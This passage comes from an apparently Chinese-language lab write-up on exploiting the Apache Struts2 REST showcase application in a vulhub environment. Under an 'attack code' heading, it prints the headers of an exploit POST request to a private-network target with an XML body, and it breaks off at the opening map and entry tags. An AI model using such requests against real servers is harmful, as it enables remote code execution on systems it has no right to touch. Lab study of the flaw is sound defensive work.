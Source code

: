 /bin/bash
</code></pre>
<p>相关源码在<a href="https://github.com/actionyz/vulhub">Github</a>上</p>
<h2 id="0x2-攻击代码">0x2 攻击代码</h2>
<p>这里只是生成一个文件4ct10n</p>
<pre class="prettyprint"><code class=" hljs http"><span class="hljs-request">POST <span class="hljs-string">/struts2-rest-showcase/orders/3</span> HTTP/1.1</span>
<span class="hljs-attribute">Host</span>: <span class="hljs-string">192.168.43.165:8989</span>
<span class="hljs-attribute">User-Agent</span>: <span class="hljs-string">Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0</span>
<span class="hljs-attribute">Accept</span>: <span class="hljs-string">text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="hljs-attribute">Accept-Language</span>: <span class="hljs-string">en-US,en;q=0.5</span>
<span class="hljs-attribute">Accept-Encoding</span>: <span class="hljs-string">gzip, deflate</span>
<span class="hljs-attribute">Referer</span>: <span class="hljs-string">http://192.168.43.165:8989/struts2-rest-showcase/orders/3/edit</span>
<span class="hljs-attribute">Cookie</span>: <span class="hljs-string">JSESSIONID=31A64A6CF6021DA63449D6DDEF10202F</span>
<span class="hljs-attribute">Connection</span>: <span class="hljs-string">close</span>
<span class="hljs-attribute">Content-Type</span>: <span class="hljs-string">application/xml</span>
<span class="hljs-attribute">Content-Length</span>: <span class="hljs-string">1656</span>

<span class="xml"><span class="hljs-tag">&lt;<span class="hljs-title">map</span>&gt;</span> 
<span class="hljs-tag">&lt;<span class="hljs-title">entry</span>&gt;</span> 